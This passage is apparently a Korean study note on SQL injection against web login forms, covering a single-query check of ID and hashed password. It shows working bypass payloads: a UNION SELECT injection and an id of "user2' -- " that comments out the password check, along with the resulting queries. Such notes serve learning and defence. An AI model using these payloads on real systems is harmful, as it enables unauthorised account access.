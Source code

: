- 서버에서 완성된 쿼리문<br>
`select id,PASSWORD from members where id='x' union select 'user2','user2' from dual where '1'='1'`<br>![Pasted image 20230419142239](https://user-images.githubusercontent.com/31990118/232986108-6e532e72-4254-4531-9464-ef82413d123f.png)
<br>![Pasted image 20230419142252](https://user-images.githubusercontent.com/31990118/232986157-f68af392-ddb2-4a6b-829e-62e9ce649116.png)





<br><br>
#### 3. 식별과 인증을 동시에 할 때(+ HASH 암호화된 비밀번호)
- 웹서버는 사용자 사용하는 비밀번호를 HASH 암호화 하여 서버에 저장한다.

>로그인 방법
- 하나의 `sql 질의문` 으로 식별과 인증을 완료한다는 것이다.
```sql
select * from members where id='입력id' and hashpwd=standard_hash('입력 pwd','SHA512');
```
- 웹 서버에서 pwd 를 바로 비교하는것이 아닌 **SHA512** 알고리즘으로 HASH 암호화한 값을 비교한다.
- **아이디**와 **비밀번호**를 동시에 일치하면 유저 정보가 나온다. 이러한 정보가 나오면 로그인에 성공한 것이다.
- 하지만 아무 정보도 안나오면 로그인에 실패 한 것이다.

>로그인 코드 <br>
<script src="https://gist.github.com/MinGyu2/10015945943d3c562131ca34225b8529.js"></script>


>정상적인 로그인<br>![Pasted image 20230419142438](https://user-images.githubusercontent.com/31990118/232986886-8bd775f2-b4ea-4d8f-81b5-1052e894f004.png)
<br>![Pasted image 20230419142455](https://user-images.githubusercontent.com/31990118/232986977-ab3e49bb-012e-40a8-b726-725242bf5d8d.png)


>nvl 함수 
- nvl 함수는 값이 null 인 경우 지정값을 출력하고 , 값이 null 아니면 그대로 출력한다.
- nvl(값,  지정값)
- '1' 은 null 이 아니다. 따라서 1이 출력된다.<br>![Pasted image 20230419143825](https://user-images.githubusercontent.com/31990118/232987098-fed02520-2eab-4f8d-bf02-4e386a3d8166.png)

<br>
>공격 방법

- **주석사용**

| | 입력|
| --- | ---|
|id|  `user2' -- `|
|pwd| ` `|

- 서버에서 완성된 쿼리문<br>
`select id from members where id='user2' -- ' and hashpwd=standard_hash('ksdjfaklsf','SHA512')`<br>![Pasted image 20230419142553](https://user-images.githubusercontent.com/31990118/232990015-656e3828-1f9c-44ac-aef5-404079e11f67.png)
<br>![Pasted image 20230419142616](https://user-images.githubusercontent.com/31990118/232990061-98b4cd2b-84f9-4ffb-85f8-3398a26fe40d.png)
